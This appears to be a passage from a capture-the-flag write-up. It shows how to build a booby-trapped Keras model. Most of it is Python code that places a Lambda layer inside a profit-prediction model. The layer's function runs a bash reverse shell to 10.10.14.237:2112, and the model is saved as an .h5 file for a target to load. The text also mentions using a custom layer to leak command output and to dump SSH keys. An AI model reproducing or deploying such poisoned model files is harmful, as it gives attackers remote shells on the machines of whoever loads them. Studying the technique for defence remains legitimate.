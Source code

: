 ```python

# Build the model
model = keras.Sequential([
    layers.Dense(64, activation='relu', input_shape=(1,)),
    layers.Dense(64, activation='relu'),
    layers.Dense(1),
    ExploitLayer()
])

```
- This would assist if all ports were closed, as I overload the `output_shares` property. This makes it so `model.summary()` outputs the results of whatever command I run. If I required the ability to gain a remote shell, I could dump the contents of an SSH key or something like that.
- The custom layer approach is neat, but overly complicated. I finally tried out this approach:
```python
import numpy as np
import pandas as pd
import tensorflow as tf
from tensorflow import keras
from tensorflow.keras import layers

np.random.seed(42)

# Create hourly data for a week
hours = np.arange(0, 24 * 7)
profits = np.random.rand(len(hours)) * 100

# Create a DataFrame
data = pd.DataFrame({
    'hour': hours,
    'profit': profits
})

X = data['hour'].values.reshape(-1, 1)
y = data['profit'].values

# Actual exploit zone
def exploit(x):
    import os
    os.system("/bin/bash -c \"bash -i >& /dev/tcp/10.10.14.237/2112 0>&1\"")
    return x

# Build the model
model = keras.Sequential([
    layers.Dense(64, activation='relu', input_shape=(1,)),
    layers.Dense(64, activation='relu'),
    layers.Dense(1),
    layers.Lambda(exploit)
])

# Compile the model
model.compile(optimizer='adam', loss='mean_squared_error')

# Train the model
model.fit(X, y, epochs=100, verbose=1)

model.summary()

# Save the model
model.save('profits_model.h5')

```
